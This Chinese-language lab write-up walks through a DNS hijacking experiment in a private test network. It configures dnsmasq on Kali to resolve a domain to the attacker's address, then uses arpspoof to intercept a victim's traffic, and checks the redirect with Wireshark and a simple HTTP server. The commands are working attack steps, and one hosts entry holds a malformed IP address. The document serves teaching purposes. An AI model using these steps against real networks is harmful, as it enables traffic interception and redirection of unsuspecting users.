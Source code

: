 ```yaml
---
title: DNS劫持实验
description: 本次实验旨在通过配置和使用 Kali Linux 中的 dnsmasq 服务，演示 DNS 劫持攻击的过程，并观察其对被攻击主机的影响
#cover: /cover/cover2.png
tag:
 - DNS
#sticky: 999
date: 2025-04-02 17:18
---
```

# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  

![image-20250402153451250](image-20250402153451250.png)

* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/lanjinxin.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  ![image-20250402163616376](image-20250402163616376.png)

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  ![image-20250402164008315](image-20250402164008315.png)

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```

![image-20250402164347315](image-20250402164347315.png)

将nameserver 设置为kali ip `192.168.183.137`



##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  ![image-20250402164940250](image-20250402164940250.png)

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向

![image-20250402165508341](image-20250402165508341.png)

​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  ![image-20250402165950014](image-20250402165950014.png)

  kali主机访问测试

  ![image-20250402170242885](image-20250402170242885.png)

* 在被攻击主机上访问域名`lanjinxin.com`

![image-20250402170154024](image-20250402170154024.png)

被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应

![image-20250402170805657](image-20250402170805657.png)

可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
